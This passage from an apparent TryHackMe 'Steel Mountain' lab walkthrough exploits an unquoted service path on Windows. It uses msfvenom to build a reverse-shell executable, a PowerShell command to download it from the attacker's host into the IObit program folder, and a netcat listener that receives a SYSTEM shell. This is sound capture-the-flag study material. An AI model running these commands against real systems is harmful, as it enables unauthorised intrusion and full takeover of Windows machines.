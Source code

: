 ### Unquoted Service Path

Create file reverse shell `Advanced.exe` with msfvenom

```
┌──(Hades㉿10.11.32.198)-[0.7:21.4]~
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.32.198 LPORT=443 -f exe -o Advanced.exe
```

Download file `Advanced.exe` to folder `IObit` in windows machine.

```
PS C:\Program Files (x86)\IObit> powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.32.198/Advanced.exe','C:/Program Files (x86)/IObit/Advanced.exe')"
PS C:\Program Files (x86)\IObit> dir


    Directory: C:\Program Files (x86)\IObit


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
d----         4/11/2021   7:25 PM            Advanced SystemCare
d----         9/26/2019  10:35 PM            IObit Uninstaller
d----         9/26/2019   8:18 AM            LiveUpdate
-a---         4/11/2021   7:30 PM      73802 Advanced.exe
```

Restart service `Advanced SystemCare Service 9` and at the listener, I got system shell.

```
┌──(Hades㉿10.11.32.198)-[0.7:21.6]~/walkthrough/tryhackme/steelmountain
└─$ sudo nc -nvlp 443
connect to [10.11.32.198] from (UNKNOWN) [10.10.106.253] 49874
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```